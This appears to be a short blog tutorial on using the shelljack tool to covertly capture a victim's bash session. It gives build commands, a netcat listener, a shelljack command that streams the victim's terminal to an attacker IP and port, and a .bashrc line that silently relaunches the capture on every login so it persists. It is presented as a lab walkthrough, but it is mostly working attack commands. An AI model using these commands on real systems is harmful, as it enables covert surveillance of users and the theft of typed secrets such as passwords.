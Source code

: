 ```yaml
---
title: Persistent monitoring
published: true
---
```


Today we will be using shelljack to monitor the bash of a victim with persistence.

## [](#header-2)Setting up the lab

We will need an attacking machine with netcat installed and a victim machine with git and [Shelljack](https://github.com/emptymonkey/shelljack).

To install shelljack on the victim's machine:

```bash
git clone https://github.com/emptymonkey/ptrace_do.git
cd ptrace_do
make
cd ..

git clone https://github.com/emptymonkey/ctty.git
cd ctty
make
cd ..

git clone https://github.com/emptymonkey/shelljack.git
cd shelljack
make
```

## [](#header-2)Simple attack

We have everything ready, now we are going to test that everything is ok before creating the persistence.

In the attacker's machine we set up a listener:

```bash
nc -lvp 9999
```

Now in the victim's machine we have to know the PID of the tty and execute shelljack:

```bash
tty
./shelljack -n Attacker IP:9999 $$
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/victim_poc.png)

Now when the victim writes a command, we can see it in our machine.

Victim:

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/victim_poc_1.png)

Attacker:

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/attacker_poc_1.png)

## [](#header-2)Applying persistence

To apply the persistence we have to modify .bashrc in the victim's machine and add this:

```bash
tty &>/dev/null; /home/code/shelljack/shelljack -n 192.168.3.3:9999 $$ &>/dev/null
```
